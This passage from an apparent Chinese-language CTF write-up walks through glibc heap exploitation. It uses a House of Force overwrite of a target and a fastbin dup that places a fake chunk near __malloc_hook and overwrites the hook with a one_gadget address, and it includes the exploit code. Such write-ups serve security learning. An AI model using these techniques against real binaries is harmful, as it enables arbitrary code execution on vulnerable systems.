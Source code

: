 这里填的一个值是 Top chunk 的大小，这次运行没有报错

那么接下来直接 malloc 一个 0x70 大小的 chunk 就可以修改 target 的值了

```
target = malloc(0x68, p64(0)*8 + b"Much Win",name)

```

这样我们就只利用两次`malloc`实现了写的操作

![](https://static.hack1s.fun/images/2021/11/17/image-20211118104626857.png)

这种方法有几个地方需要确保：

*   Fake Size 的`IS_MAPPED`、`NON_MAIN_ARENA`、`UNUSED`位都需要清零；
*   需要能控制 fake chunk 后面的 nextsize

### 代码执行

那么接下来就是尝试将任意地址写转换成代码执行

这部分的核心思路是申请到`_malloc_hook`附近的 chunk，进而修改`_malloc_hook`

直接使用 fastbin_dup 中的方法就可以实现

![](https://static.hack1s.fun/images/2021/11/18/image-20211118134724392.png)

在 malloc_hook 附近查找有没有可以伪造的 chunk

然后直接改一下利用 fastbin dup 写的目标地址和 size

把`malloc_hook`覆盖成一个 one_gadget 的地址

![](https://static.hack1s.fun/images/2021/11/18/image-20211118140635287.png)

```
name = b"A"*8
chunk_A = malloc(0x68, b"Y"*0x18, name)
chunk_B = malloc(0x68, b"Y"*0x18, name)
chunk_C = malloc(0x68, b"Y"*0x18, name+p64(heap+0x10))

free(chunk_A)
free(chunk_B)
free(chunk_C)

malloc(0x68, p64(libc.sym.__malloc_hook - 0x23), name)
malloc(0x68, b'x'*18, name)
malloc(0x68, b'x'*18, name)
#  malloc(0x68,b'\x00'*0x13 + p64(libc.sym.system),name)
malloc(0x68, b'B'*0x13 + p64(libc.address+0xe1fa1) , name)

```

尝试了一下把`__malloc_hook`改成 system，但是发现不管用

最后还是使用 one_gadget 了
